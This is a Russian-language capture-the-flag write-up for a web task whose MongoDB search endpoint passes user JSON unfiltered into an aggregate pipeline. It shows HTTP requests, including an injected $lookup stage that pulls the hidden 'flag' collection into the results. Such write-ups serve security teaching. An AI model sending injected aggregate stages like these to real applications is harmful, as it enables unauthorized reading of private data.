 Мыслить тяжело... Мы сделали аггрегатор всех сильных мыслей. Но один анонимус оставил нам неуловимую мысль...

source: [https://storage.yandexcloud.net/nti/thought_aggregator.zip](https://storage.yandexcloud.net/nti/thought_aggregator.zip)

url: [http://outdated:3000/](http://outdated:3000/)


### Writeup

К заданию даются исходные коды. После анализа приходим к выводу, что для поиска используются aggregate-запросы в mongodb. Кроме того, запрос от пользователя посылается в json-виде и не проходит фильтрации.

Это позволяет нам сделать aggregate запрос, объединяющий несколько коллекций (в нашем случае коллекцию flag)

### Эксплуатация

При попытке поиска на на сервер посылается запрос следующего вида:

```http
POST /api HTTP/1.1
Host: 172.21.30.20:3000
Content-Length: 43
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://172.21.30.20:3000
Referer: http://172.21.30.20:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"$match":{"message":{"$regex":".*sometext.*"}}}
```

Мы можем делать любые aggregate-запросы, оформленные в виде json-объектов. Запрос для конкатенации данных из двух коллекций может выглядеть следующим образом:

```http
POST /api HTTP/1.1
Host: 172.21.30.20:3000
Content-Length: 129
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://172.21.30.20:3000
Referer: http://172.21.30.20:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{ "$lookup": {
            "from": "flag",
            "as": "__flag",
"foreignField":"__flag","localField":"flag"
        }}
```

Здесь используется [$lookup](https://docs.mongodb.com/manual/reference/operator/aggregation/lookup/) запрос для объединения информации из нескольких коллекций
